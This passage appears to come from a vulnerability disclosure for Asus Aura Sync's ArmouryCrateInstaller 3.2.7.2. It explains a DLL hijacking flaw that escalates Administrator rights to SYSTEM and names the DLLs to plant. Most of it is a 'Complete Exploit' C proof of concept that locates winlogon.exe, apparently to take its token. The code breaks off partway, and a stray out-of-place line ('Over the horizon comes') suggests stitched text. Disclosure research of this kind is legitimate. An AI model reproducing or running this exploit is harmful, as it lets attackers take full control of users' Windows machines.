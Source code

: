 Many DLLs are loaded from the directory where the ArmouryCrateInstaller is located. Among these Dlls, `TextShaping.dll` is loaded, and this DLL load is done with Administrator privileges. So, by placing `profapi.dll, PROPSYS.dll, edputil.dll, urlmon.dll, SspiCli.dll` in the directory where the ArmouryCrateInstaller Version, you can gain SYSTEM privileges by abusing Administrator privileges.

Over the horizon comes

## 0x05: Complete Exploit

```c
/*
 - ZeroDay Research  -
@component: Asus Aura Sync / Aura Creator - ArmouryCrateInstaller 3.2.7.2

@filename: dllpoc.cpp

@vulnerability: 0Day - Arbitrary Code Execution (DLL Hijacking) To Local Privilege Escalation In Asus Aura Sync - ArmouryCrateInstaller 3.2.7.2

@author: RashidKhan Pathan (iHexCoder)


*/

#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <Tlhelp32.h>
#include <sddl.h>
#include <iostream>


#pragma comment (lib,"advapi32.lib")

void exploit() {
    printf("[+] Vulnerability: Local Privilege Escalation Via DLL Hijacking \n");
    printf("[+] Author: RashidKhan Pathan (iHexCoder) \n");
    printf("[+] Tested On: Windows 10 20H2 (OS Build: 19045.3508) \n");
    printf("[+] Affected Products: Aura Sync / Aura Creator - ArmouryCrateInstaller 3.2.7.2 \n");
    printf("[+] Affected Components: profapi.dll, PROPSYS.dll, edputil.dll, urlmon.dll, SspiCli.dll \n");

    DWORD lpidProcess[2048], lpcbNeeded, cProcesses;
    EnumProcesses(lpidProcess, sizeof(lpidProcess), &lpcbNeeded);
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    PROCESSENTRY32 p32;
    p32.dwSize = sizeof(PROCESSENTRY32);

    int processwinloginPid;

    if (Process32First(hSnapshot, &p32)) {
        do {
            if (wcscmp(p32.szExeFile, L"winlogon.exe") == 0) {
                printf("[+] Located winlogon.exe by process name (PID %d)\n", p32.th32ParentProcessID);
                processwinloginPid = p32.th32ProcessID;
                break;
            }
        } while (Process32Next(hSnapshot, &p32));

        CloseHandle(hSnapshot);

        LUID luid;
```
